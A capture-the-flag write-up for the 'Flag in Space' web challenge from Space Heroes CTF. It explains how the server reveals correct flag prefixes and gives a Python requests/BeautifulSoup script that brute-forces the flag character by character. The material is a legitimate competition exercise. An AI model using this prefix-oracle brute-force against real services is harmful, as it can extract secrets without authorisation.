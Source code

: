 # Flag in Space - Web

Space Heroes CTF had a number of space and scifi themed interesting challenges, and while I didn't get as much time as I would've liked to play around with them, this was one challenge that I found simple but particularly satisfying to solve - it was the second to last web challenge in the web category worth 300 points.

Upon visiting the URL, we are presented with a grid with a number of squares in it, with the first grid square containing the letter "s". We can also see that the URL itself has a query parameter flag, which initially has the value of "s" (http://172.105.154.14/?flag=s).

Whenever I see a query parameter used in any CTF challenge I tend to experiement with it straight away, and this one didn't take long to figure out. Knowing that the flag started with "shctf{", I used that as the value for the query param, and it filled the next several grid items with those letters. 

So what was happening was that the server was checking to see if what was in the query string matched the flag, and if the letters watched it would render them inside the grid divs. With this information I quickly wrote a python script to iterate over string.printable, using BeautifulSoup to parse the HTML that is returned by the request, and constructing the flag, and this was the final script:

	import requests
	import string
	from bs4 import BeautifulSoup

	url = "http://172.105.154.14/?flag=s"

	known = "s"
	attempt = 1

	while True:
		# Iterate over string.printable
		for c in string.printable:
			print(f"Trying {url + c}")
			r = requests.get(url + c)
			soup = BeautifulSoup(r.text, 'html.parser')	# Parse the current div using BeautifulSoup
			result = soup.select('div')[attempt].get_text(strip=True)
			print(result)
			if c in result:
				url += c
				known += c
				attempt += 1
		print(f"Flag: {known}")

This was a fun challenge and while I wish I'd got to spend more time on the CTF overall, I did get first solve of this challenge, and anytime I get to use python + requests + string, whether it's a blind SQL injection or simply parsing some divs, I find myself very satisfied with the result.


